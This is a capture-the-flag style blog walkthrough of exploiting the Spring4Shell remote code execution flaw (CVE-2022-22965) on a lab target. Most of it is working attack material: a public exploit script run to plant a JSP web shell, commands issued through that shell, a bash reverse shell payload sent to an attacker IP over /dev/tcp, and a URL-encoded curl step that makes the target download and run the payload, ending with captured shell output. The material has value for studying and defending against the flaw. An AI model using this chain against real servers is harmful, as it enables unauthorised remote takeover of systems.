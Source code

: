 ```yaml
---
title: CVE-2022-22965 - The Critical Spring4Shell Vulnerability
date: 2023-10-13 00:00:00 -500
categories: [Hacking for Beginners]
tags: [0day, cve, CTFs, Hacking]
image:
    path: https://i.ibb.co/cTdw811/spring.webp
---
```


Welcome back, Hackers, **to The Hacking Journey**, In this exciting articles, we will take a look about Spring4shell,  Spring4Shell, also known as `CVE-2022-22965`, is a remote code execution vulnerability within the Spring Framework. It's a name that resonates with the critical Log4Shell bug revealed in 2021.
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.
**Learn with HacktheBox [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
**Join TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.
**Exploit The Lab [Here](https://echoctf.red/target/92)**.

## Exploitation 
Now we will explore how the exploitation works in more details.
### Lab Description :
This is a target with direct implementation of the Spring RCE vulnerability CVE-2022-22965, accessible at http://target:8080/helloworld/greeting. The target is here to assist in familiarizing and developing exploits and mitigation tools for this vulnerability.

Upon visiting the web page, you'll immediately notice a prominent message at the top: `Hello World! Exploit me! `.
Searching possible exploits for spring returns the following PoC: [Here](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py).
We can try to exploit the vulnerability on this website.
```terminal
└─# python3 exploit.py
usage: exploit.py [-h] --url URL [--file FILE] [--dir DIR]
exploit.py: error: the following arguments are required: --url

└─# python3 exploit.py --url http://10.0.200.14:8080/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://10.0.200.14:8080/shell.jsp?cmd=id
                                                                
```
Now if we visit that url in browser we will see the answer of the `id` command `uid=33(www-data) gid=33(www-data) groups=33(www-data) // `, then we can change it to another command like `ls`, `whoami` etc..
```terminal
└─# curl -s "http://10.0.200.14:8080/shell.jsp?cmd=ls" --output -
bin
boot
dev
entrypoint.sh
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

## Reverse Shell
Now we can try to get a shell on the server. We copy the payload below and save it in a file called shell.sh. 
`bash -c 'exec bash -i &>/dev/tcp/10.10.5.230/4444 <&1'`
We start a Listner Machine and also an http server Like This:
```terminal
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In a second terminal, start a Netcat listener:
```terminal
└─# nc -lnvp 4444                                             
listening on [any] 4444 ...
```
Download the script onto the target machine and execute it to establish a reverse shell:
```
# curl http://10.0.200.14:8080/shell.jsp?cmd=curl%2010.10.5.230%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh%20--output%20-
```
Here, we've encoded all special characters in the curl command to ensure proper execution.
```terminal
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.200.14 - - [13/Oct/2023 12:18:46] "GET /shell.sh HTTP/1.1" 200 -
```
After downloading the script, use a web browser to execute it and trigger the reverse shell:
`http://10.0.200.14:8080/shell.jsp?cmd=bash%20%2Ftmp%2Fshell.sh`
Once executed, you'll receive a reverse shell connection, as indicated by the following:
```
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.5.230] from (UNKNOWN) [10.0.200.14] 47204
whoami;id;hostnamectl         
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Static hostname: 1337
       Icon name: computer-laptop
         Chassis: laptop 💻
      Machine ID: 5b6e1889fbdb4bcc88d63eabf7e2110b
         Boot ID: a383e3d1a72b45a8937cf92125545a33
Operating System: Kali GNU/Linux Rolling          
          Kernel: Linux 6.0.0-kali3-amd64
    Architecture: x86-64
 Hardware Vendor: Hewlett-Packard
  Hardware Model: HP EliteBook Folio 9470m
Firmware Version: 68IBD Ver. F.48
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
